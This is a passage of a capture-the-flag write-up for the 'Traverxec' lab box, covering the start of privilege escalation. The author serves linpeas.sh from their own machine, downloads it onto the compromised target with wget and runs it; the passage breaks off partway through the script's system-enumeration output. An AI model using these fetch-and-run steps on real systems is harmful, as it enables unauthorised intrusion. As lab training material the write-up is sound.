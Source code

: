 **Great!** We got user.txt. Let's got to root now.

# Root

Trying to do `sudo -l`, we realise that none of the passwords we found works. so we'll need to escalate our privileges differently. What we can do is upload `linpeas.sh`from [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS). We make a http server on our local machine and upload the file with `wget`.

```sh
[LOCAL]
#python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...

[TARGET]
david@traverxec:/tmp$ wget http://10.10.15.37/linpeas.sh
--2020-03-25 17:50:06--  http://10.10.15.37/linpeas.sh
Connecting to 10.10.15.37:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 160486 (157K) [text/x-sh]
Saving to: ‘linpeas.sh.1’

linpeas.sh.1         100%[=====================>] 156.72K   126KB/s    in 1.2s

2020-03-25 17:50:08 (126 KB/s) - ‘linpeas.sh.1’ saved [160486/160486]

david@traverxec:/tmp$ sh linpeas.sh
```

The first information we get is regarding the linux version the box is running

```sh
===========================( Basic information )=====================================
OS: Linux version 4.19.0-6-amd64 (debian-kernel@lists.debian.org) (gcc version 8.3.0 (Debian 8.3.0-6)) #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20)
User & Groups: uid=1000(david) gid=1000(david) groups=1000(david),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
Hostname: traverxec
Writable folder: /dev/shm
[+] /usr/bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)
[+] /usr/bin/nc is available for network discover & port scanning (linpeas can discover hosts and scan ports, learn more with -h)


[+] PATH
[i] Any writable folder in original PATH? (a new completed path will be exported)
/home/david/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
New path exported: /home/david/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local
/sbin:/usr/sbin:/sbin
```
